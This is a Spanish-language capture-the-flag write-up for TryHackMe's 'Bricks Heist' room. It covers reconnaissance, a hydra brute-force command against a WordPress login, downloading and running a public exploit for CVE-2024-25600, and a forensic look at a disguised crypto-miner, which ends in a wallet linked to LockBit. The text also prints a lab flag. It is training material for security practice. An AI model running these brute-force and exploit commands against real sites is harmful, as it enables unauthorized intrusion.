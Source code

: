 ```yaml
---
title: "trikc"
platform: "THM"
publishedAt: 2025-05-09
cover: "/images/ctf/nota2-cover.webp"
preview: "Explotamos un sitio WordPress vulnerable con CVE-2024-25600"
---
```


---


# 🧱 TryHackMe – Bricks Heist | Write-up técnico


![image.png](/images/ctf/nota2-0.webp)


En este reto de TryHackMe nos enfrentamos a un escenario en el que un sitio WordPress ha sido comprometido por un actor malicioso. Nuestra misión es investigar, identificar cómo se produjo el ataque, qué malware fue desplegado, y qué grupo está detrás.


---


## 🔍 Reconocimiento inicial


Comenzamos con un escaneo completo:


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Se detectan los siguientes servicios:

- **22/tcp** – OpenSSH
- **80/tcp** – WebSockify (retorna error 405)
- **443/tcp** – Apache + WordPress 6.5
- **3306/tcp** – MySQL (sin autenticación)

---


## 🎯 Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

---


## 🔓 Acceso inicial


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💥 Explotación del CVE


Usamos el exploit público para el CVE-2024-25600:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


Al ejecutarlo con credenciales válidas, logramos ejecutar comandos remotos y abrir una **shell interactiva**:


```shell
bash
CopyEdit
python3 CVE-2024-25600.py --url https://bricks.thm --username administrator --password ***** --cmd id
```


---


## 🐚 Post-explotación


Accedemos a `/var/www/html/` y encontramos la flag inicial:


```plain text
CopyEdit
THM{fl46_650c844110baced87e1606453b93f22a}
```


Revisamos los procesos activos y servicios del sistema, encontrando uno sospechoso:


```shell
bash
CopyEdit
ubuntu.service - TRYHACK3M
ExecStart=/lib/NetworkManager/nm-inet-dialog
```


El proceso asociado es: `nm-inet-dialog`.


---


## 📁 Análisis del miner


Identificamos el archivo de log del minero en:


```shell
bash
CopyEdit
/lib/NetworkManager/inet.conf
```


Este archivo contiene líneas como:


```plain text
css
CopyEdit
[*] Bitcoin Miner Thread Started
```


Y una clave codificada como:


```plain text
makefile
CopyEdit
ID: WW1NeGNY...
```


---


## 🔓 Decodificación de wallet


Decodificando el valor de `ID` en base64 (dos veces), obtenemos:


```plain text
nginx
CopyEdit
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


Una dirección de Bitcoin válida (Bech32) usada para recibir ganancias del minero.


---


## 🕵️ Asociación con grupo de amenazas


Rastreando la dirección en fuentes OSINT, encontramos que ha sido usada en transacciones ligadas al grupo de ransomware **LockBit**.


---


## ✅ Conclusión


Este reto combina:

- Enumeración de WordPress
- Explotación real de CVE
- Escalada post-explotación
- Análisis forense y OSINT

**Una práctica redonda** para cualquier profesional de ciberseguridad ofensiva o defensiva.

